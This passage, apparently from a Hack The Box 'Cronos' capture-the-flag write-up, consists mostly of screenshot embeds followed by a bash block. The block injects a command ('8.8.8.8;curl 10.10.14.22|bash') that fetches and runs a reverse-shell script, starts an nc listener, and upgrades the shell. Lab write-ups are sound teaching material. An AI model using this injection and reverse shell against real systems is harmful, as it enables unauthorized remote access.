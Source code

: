 <br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now to access the target machine, I just need to create an **index.html** file with a malicious command I get from **[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** to get a **Reverse Shell**, then mount a local server with `python` to make the file accessible, open a local port with `nc` to establish the connection to the victim machine and finally inject the command in my browser to compromise the machine. Everything works correctly, so now I perform a **Console treatment** to have a more efficient performance from console. I find some credentials to access the database manager and again I can see the content of the first flag.

```bash
python3 -m http.server 80
# 8.8.8.8;curl 10.10.14.22                  :)

nvim index.html
cat !$
python3 -m http.server 80
nc -nlvp 443
# 8.8.8.8;curl 10.10.14.22|bash             :)

whoami
hostname
hostname -I
ip a

# Console treatment
script /dev/null -c bash
[Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```
